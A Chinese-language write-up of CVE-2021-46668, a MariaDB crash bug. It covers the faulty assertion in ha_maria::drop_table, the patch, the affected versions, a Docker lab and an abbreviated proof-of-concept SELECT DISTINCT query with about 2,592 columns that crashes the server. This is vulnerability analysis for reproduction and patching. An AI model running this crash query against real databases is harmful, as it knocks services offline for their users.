



# CVE-2021-46668 CWE-400 MariaDB DoS

## 漏洞背景

- **MariaDB ：**一款开源关系型数据库管理系统，由 MySQL 的创始人开发，与 MySQL 高度兼容。它具有高性能、高安全性、易于使用等特点，支持多种存储引擎，可保障数据的可靠存储与高效读写。同时，MariaDB 还具备强大的查询优化能力，能增强数据库性能，广泛应用于多种行业领域，为数据存储和管理提供有力支持。
- **CWE-400**  **资源耗尽（Uncontrolled Resource Consumption）：** 程序未能正确限制对系统资源（如CPU、内存、磁盘、文件句柄等）的使用，导致攻击者可以通过构造特定请求大量占用资源，最终造成系统变慢、崩溃或拒绝服务（DoS）。该类漏洞通常与缺乏输入验证或资源配额管理不当有关。

## 漏洞原理

该漏洞源于 MariaDB 在处理大量字段的 `SELECT DISTINCT` 查询时，对临时表资源管理不当，当临时表未成功打开却仍调用删除操作时，调试断言未正确判断空指针，导致数据库崩溃，从而形成拒绝服务漏洞。

## 漏洞定位

分析 MariaDB 10.6.3：

在 storage\maria\ha_maria.cc 文件，第 2789 行`ha_maria::drop_table`函数。

其中的第 2791 行的断言假设 `file` 指针已经被正确初始化，并且 `file->s` 是非空的，且对应的是一个临时表（`temporary` 为真）。 

在某些情况下（比如临时表未成功打开、分配资源失败）尤其是在处理复杂或大量列的临时表时（如 `SELECT DISTINCT` 包含很多字段）时，`file` 为 `nullptr`（或未初始化）时，这个断言会触发 **段错误（SIGSEGV）**，因为试图访问 `file->s`。

```cpp
/* This is mainly for temporary tables, so no logging necessary */
// ha_maria.cc 文件，第 2789 行
void ha_maria::drop_table(const char *name)
{
    // 2789 行
  DBUG_ASSERT(file->s->temporary);
  (void) ha_close();
  (void) maria_delete_table_files(name, 1, MY_WME);
}
```

## 漏洞修复


修改断言以允许 `file == nullptr`。当临时表尚未打开或初始化、`file` 为空时，不再解引用该指针或触发错误断言。

```cpp
void ha_maria::drop_table(const char *name)
{
  DBUG_ASSERT(!file || file->s->temporary);
  (void) ha_close();
  (void) maria_delete_table_files(name, 1, MY_WME);
}
```

## 影响范围


**受影响的版本：** MariaDB：

- 10.2.0 至 10.2.42
- 10.3.0 至 10.3.33
- 10.4.0 至 10.4.23
- 10.5.0 至 10.5.14
- 10.6.0 至 10.6.6
- 10.7.0 至 10.7.2

## 环境搭建

启动 Docker 环境，MariaDB 版本为 10.6.3，管理员用户为 root，密码为 12345，存在一个数据库 test_db，开放端口为 3306，容器中已存在 PoC 文件 CVE-2021-46668-PoC.sql 。

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## 漏洞复现

1、进入容器命令行

```bash
docker exec -it mariadb-10.6.3 bash
```

2、使用 root 用户登录并连接数据库 test_db，密码为 12345

```sql
mariadb -u root -p test_db
```

3、执行 PoC 文件 CVE-2021-46668-PoC.sql，可以看到遇到错误且容器自动关闭

```sql
source CVE-2021-46668-PoC.sql
```



4、查看 MariaDB 崩溃日志，可以看到`[ERROR] mysqld got signal 11 ;`，表明 Segmentation Fault（段错误）发生导致 DoS。

```bash
docker logs mariadb-10.6.3
```



## POC分析

```sql
CREATE TABLE t1 (a1 text);
 
(SELECT DISTINCT 
    t1.a1 AS c1,
    t1.a1 AS c2,
    t1.a1 AS c3,
    ...
    t1.a1 AS c2591, 
    t1.a1 AS c2592
FROM t1) dt;
```

创建了一个包含 **2592 个重复字段** 的 `SELECT DISTINCT` 查询，所有列都来自同一个字段 `t1.a1`。虽然逻辑上字段值完全相同，但 `DISTINCT` 会尝试逐列比较这些列，MariaDB 需要为这些字段在**临时表**中分配资源并处理去重逻辑。

MariaDB 会使用临时表（尤其是磁盘临时表，如 Aria 引擎），在构造这些临时表结构时，内部资源（如列描述符、临时内存）可能被耗尽，Maria 可能未能成功打开临时表（导致 `file == nullptr`）。之后调用 `drop_table()` 函数时触发 `DBUG_ASSERT(file->s->temporary)`，导致崩溃。

## 参考链接


[NVD - CVE-2021-46668](https://nvd.nist.gov/vuln/detail/CVE-2021-46668)

[[MDEV-25787\] Bug report: crash on SELECT DISTINCT thousands_blob_fields - Jira](https://jira.mariadb.org/browse/MDEV-25787)

[MDEV-25787 Bug report: crash on SELECT DISTINCT thousands_blob_fields · MariaDB/server@9e39d0a](https://github.com/MariaDB/server/commit/9e39d0ae44595dbd1570805d97c9c874778a6be8)
